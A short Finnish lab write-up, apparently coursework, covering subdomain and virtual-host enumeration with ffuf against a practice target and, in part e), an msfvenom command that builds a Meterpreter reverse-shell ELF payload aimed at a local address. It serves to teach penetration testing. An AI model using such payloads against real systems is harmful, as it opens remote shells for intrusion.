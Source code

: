 **Rate Limited**

Kohtasin haasteita tässä tehtävässä, jossa palvelu rajoitti pyyntöjen määrää. Yritin eri komentoja, mutta jatkuvat virheet estivät sisällön löytämisen.

**Subdomains - Virtual Host Enumeration**

Tehtävässä käytin komentoa `ffuf -w ~/wordlists/subdomains.txt -H "Host: FUZZ.ffuf.me" -u http://localhost -fs 1495`, joka tunnisti `redhat`.

![kuva](images/h3/6ffuf.png)

## e)
Tein reverse shell haittaohjelman msfvenomilla. `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f elf > runme.elf`. Tämä komento luo ELF-tiedoston, joka avaa reverse shell -yhteyden määriteltyyn isäntään ja porttiin.
